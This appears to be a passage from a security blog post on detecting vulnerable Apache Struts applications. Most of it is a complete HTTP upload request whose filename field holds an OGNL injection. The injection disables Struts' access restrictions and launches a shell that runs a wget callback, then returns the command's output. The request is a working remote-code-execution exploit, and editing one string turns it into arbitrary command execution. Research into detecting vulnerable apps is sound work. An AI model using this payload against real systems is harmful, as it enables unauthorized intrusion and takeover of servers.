 ![](/images/post4/7.jpg)



The used payload is totally harmless and don't let a researcher to detect a vulnerable app. To improve this, I used more complex existent OGNL expressions where OS commands could be performed.

This following payload will make a request using wget to a target server. By running any server software that logs access requests we could realize if the app is vulnerable:


```sh
POST /VulnerableApp/thiscouldnotmatter HTTP/1.1
Host: localhost:8080
Content-Length: 279000000
Cache-Control: max-age=0
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://localhost:8080/doUpload
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close

------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget 127.0.0.1/tested').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
Content-Type: text/plain

foo
```